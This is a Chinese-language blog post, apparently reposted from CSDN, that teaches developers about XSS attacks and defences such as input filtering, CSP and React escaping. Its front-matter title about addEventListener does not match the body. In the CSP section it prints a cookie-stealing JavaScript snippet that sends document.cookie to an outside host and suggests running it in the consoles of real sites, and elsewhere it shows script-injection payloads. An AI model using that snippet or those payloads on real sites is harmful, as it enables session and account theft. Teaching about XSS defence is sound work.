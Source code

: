 ```yaml
---
layout: post
title: "「Progress」转 addEventListener()与attachEvent()区别分析"
subtitle: " From CSDN"
author: "Yuzj"
header-img: "img/post-bg-web.jpg"
header-mask: 0.3
catalog: true
tags:
- A Little Progress
- JavaScript
---
```


# 今日讨论

你了解 XSS 攻击么 

# 结果

```
网络千万条，安全第一条。网安不规范，网站都完蛋!
```

作为前端工程师接触最多的漏洞我想就是 XSS 漏洞了，然鹅并不是所有的同学对其都有 一个清晰的认识。这篇文章将带领大家认清 XSS 攻击，以及对于 XSS 攻击该如何防范。 

## 什么是 XSS 攻击 

# XSS攻击那些事儿

​    2011年4月30日，人人站内信遭到XSS攻击。造成人ID，姓名，学校，手机号，QQ大约
​    2011年6月28日，新浪微博远程XSS攻击，微博用户中招后会自动向自己的粉丝发送含毒私信和微博，有人点击后会再次中毒，形成恶性循环

## 一，XSS攻击介绍

### 1.介绍

​    跨站脚本攻击（跨站点脚本），XSS攻击通常指的是通过利用网页开发时留下的漏洞，恶意攻击者往Web页面里插入恶意脚本代码，当用户浏览时，嵌入其中Web里面的脚本代码会被执行，从而达到恶意攻击用户的目的

### 2.危害

​    据近几岁年OWASP（OWASP是世界上最知名的Web安全与数据库安全研究组织）统计XSS占所有web攻击的22％，高居所有web威胁榜首

- 流量劫持
- 获取用户cookie信息，盗取账号
- 篡改，删除页面信息
- 配合CSRF攻击，实施进一步的攻击
- ······

## 二，XSS攻击类型

![photo 2020-01-20%20%E4%B8%8B%E5%8D%8811.56.28](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.28.png)

### 1.存储型XSS

- 存储型XSS浏览即被触发

  ![XSS类型](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.36.png)

  ### 2.反射型XSS

- 反射型XSS需要欺骗用户操作触发（知乎，京东已经做成转义，没有转义的情况下会被触发）

  # [![XSS类型](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.44.png)

## 三，XSS攻击流程

### 1.寻找突破

- 留言系统

- 邮件系统

- 评论系统

- 富文本编辑器

  上面这些都是XSS攻击的“重灾区”，因为它们都有共同点：

  ![XSS重灾区](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.50.png)

  ### 2.构造攻击代码

  ![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.56.png)

  ![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.02.png)

  ### 3.注入代码

- 验证攻击是否有效总结，XSS的整个流程大致如下：
  [![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.13.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_10.png)

  [![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.19.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_11.png)

## 四，XSS预防

### 1.特殊字符过滤

```
<script><script>
<style></style>
a，href | events
img，src | events
style=“width: expression(xxx)”
```

推荐[♡](http://jsxss.com/zh/index.html) xss npm模块[jsxss.com/zh/index.ht…](http://jsxss.com/zh/index.html)

```
import xss from ‘xss’;
const html = xss(‘<script>alert(“xss”)</script>’)
```

![photo 2020-01-20%20%E4%B8%8B%E5%8D%8811.57.25](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.25.png)[![特殊字符过滤](https://user-gold-cdn.xitu.io/2017/11/19/15fd45533001a817?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_12.png)

### 2. CSP

​    内容安全策略（Content Security Policy），实质上就是白名单制度，开发者明确告诉客户端，某些外部资源可以加载和执行，大大增强了网页的安全性。

- 客户端设置

  ```
  <meta http-equiv="Content-Security-Policy" content="default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval' ">
  ```

- 服务器设置

  ```
  setHeader(‘Content-Security-Policy’, default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval')
  ```

- CSP浏览器兼容性，安卓和IE支持不太理想的研究者的话可以在 [waimai.meituan.com](http://waimai.meituan.com/)和[ele.me](http://ele.me/)的控制台测试以下代码看看会发生什么
  [![CSP](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.34.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_13.jpg)

  ```
  function sendCookie(){
   var img = document.createElement('img');
   img.src = 'https://keycode.me?cookie=' + document.cookie;
   document.body.appendChild(img);
   document.body.removeChild(img);
  }
  sendCookie();
  ```

并非预防了XSS，还是预防了XSS更深入的危害。CSP的具体介绍请戳[www.w3.org/TR/CSP1/](https://www.w3.org/TR/CSP1/)

### 3.XSS与反应

​    React官方文档是这么说的，JSX防止注入攻击

- 默认情况下，React DOM在呈现它们之前先转义JSX中嵌入的任何值。因此，它确保您永远不会注入未在应用程序中明确编写的任何内容。一切在呈现之前都会转换为字符串。这有助于防止XSS攻击。[facebook.github.io/react/docs/…](https://facebook.github.io/react/docs/introducing-jsx.html)

- 但事情也不是绝对的，在利用危险SetInnerHTML注入html时也要注意过滤特殊字符

  ```
  <div dangerouslySetInnerHTML={{__html: `<script>alert(‘XSS’)</script>`}} />
  ```